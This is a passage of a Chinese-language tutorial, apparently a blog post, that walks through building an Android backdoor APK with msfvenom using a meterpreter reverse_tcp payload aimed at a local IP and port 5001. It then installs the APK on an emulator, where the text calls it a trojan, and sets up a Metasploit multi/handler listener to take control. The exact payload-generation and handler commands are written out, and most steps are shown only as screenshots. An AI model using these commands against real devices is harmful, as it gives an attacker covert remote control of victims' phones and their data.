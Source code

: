 **3.1 打开虚拟机，启动 kali, 打开终端，生成 apk 后门。**

lhost 为 windows 的 ip（可以根据自己的 IP 设定），lport 指定一个端口 5001。

打开终端输入命令：

msfvenom -p android/meterpreter/reverse_tcp lhost=192.168.0.101 lport=5001 R > /etc/222.apk

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSHDibYo7gf3WmjEBqPHnlPkWclIa6E2GNysYvKicQwAn6jT4ib0ic92l5ibe7XPl5xj9VTgKGPNzqy7eFw/640?wx_fmt=png)

(生成 apk 文件)

**3.2 生成文件后我们到 / etc/222.apk 目录下,**

拷贝我们的 apk 文件,

到我们的 windows 平台下, 然后启动我们的雷电模拟器，点击启动：

![](https://mmbiz.qpic.cn/mmbiz_jpg/CBJYPapLzSHDibYo7gf3WmjEBqPHnlPkWLb7IO2o9QeYWpsLI1PBNY3aBoMia2GNYTDfsNrDmt3YbITQQIqvTlow/640?wx_fmt=jpeg) 

(启动界面)

**3.3 在右下角有个 apk, 点击选择文件安装。**

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSHDibYo7gf3WmjEBqPHnlPkWyRicgEqA5nuR6anI2ImFK4XAOoh5DRKjagpsjLpANHGrCulEQ62KxiaQ/640?wx_fmt=png)

**3.4 然后为了测试我们使用模拟器安装 apk 文件：**

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSHDibYo7gf3WmjEBqPHnlPkWJYzoZgHI3LGtMqdbLOhmfm7ib0VFfXNyjliaDgDt00HSP6y7nHJicXwsQ/640?wx_fmt=png)

（成功安装木马文件）

4 使用 metasploit 控制台对模拟器进行攻击：
----------------------------

**4.1 启动 metasploit：**

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSHDibYo7gf3WmjEBqPHnlPkWrxialPgibyQm5aJElezukue7EzNeJE7BicB2nu0wP84tg3icDxGZrRclRw/640?wx_fmt=png)

(启动界面)

**4.2 使用模块：use exploit/multi/handler**

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSHDibYo7gf3WmjEBqPHnlPkWw3SxGuVukHFiaoP4LZDLuvkMgc8untdEkfVoosWhBEDevscyQSyAUbA/640?wx_fmt=png)

（设置 exploit）

**4.3 设置模块 set payload android/meterpreter/reverse_tcp**

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSHDibYo7gf3WmjEBqPHnlPkWsubI0r89fmb13dnVhCct5O8ia2G8TpNiaAWyicic62dhVDTRZichlMpWEXQ/640?wx_fmt=png)

（paload 设置）

**4.4 设置攻击机和端口号和启动：**

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSHDibYo7gf3WmjEBqPHnlPkWibPPC3RCsINydLAiaeQgUxvPyrDB5q6Xupy07F9Tb62b7EDLk6O4XFZw/640?wx_fmt=png)

（参数配置）
